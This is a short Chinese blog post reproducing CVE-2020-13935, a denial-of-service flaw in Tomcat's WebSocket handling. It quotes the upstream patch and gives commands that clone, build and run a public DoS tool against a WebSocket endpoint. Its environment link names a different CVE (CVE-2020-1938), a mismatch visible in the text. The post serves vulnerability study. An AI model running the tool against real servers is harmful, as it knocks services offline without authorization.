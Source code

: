 ```yaml
---

layout: post
title:  "【漏洞复现】CVE-2020-13935 | Tomcat websocket 拒绝服务漏洞"
categories: 漏洞复现
tags: Tomcat 漏洞复现
author: 303Donatello

---
```



* content
{:toc}

## 准备环境
直接采用vulhub提供的[CVE-2020-1938](https://github.com/vulhub/vulhub/tree/master/tomcat/CVE-2020-1938) docker环境进行启动即可。
## PATCH
在[java/org/apache/tomcat/websocket/WsFrameBase.java 206-270行](https://github.com/apache/tomcat/blob/c5e4066fc25c2b8611e476199d3361341c473257/java/org/apache/tomcat/websocket/WsFrameBase.java)中补丁如下：
```
            // The most significant bit of those 8 bytes is required to be zero
            // (see RFC 6455, section 5.2). If the most significant bit is set,
            // the resulting payload length will be negative so test for that.
            if (payloadLength < 0) {
                throw new WsIOException(
                        new CloseReason(CloseCodes.PROTOCOL_ERROR, sm.getString("wsFrame.payloadMsbInvalid")));
            }
```


## 漏洞利用
[传送门](https://github.com/RedTeamPentesting/CVE-2020-13935)
```
$ git clone https://github.com/RedTeamPentesting/CVE-2020-13935
$ cd CVE-2020-13935
$ go build
$ ./tcdos [WebSocket endpoint]
```
![](https://img2020.cnblogs.com/blog/2011235/202011/2011235-20201111172825405-896052511.png)

## 参考
[1]https://blog.redteam-pentesting.de/2020/websocket-vulnerability-tomcat/
[2]https://github.com/apache/tomcat/blob/c5e4066fc25c2b8611e476199d3361341c473257/java/org/apache/tomcat/websocket/WsFrameBase.java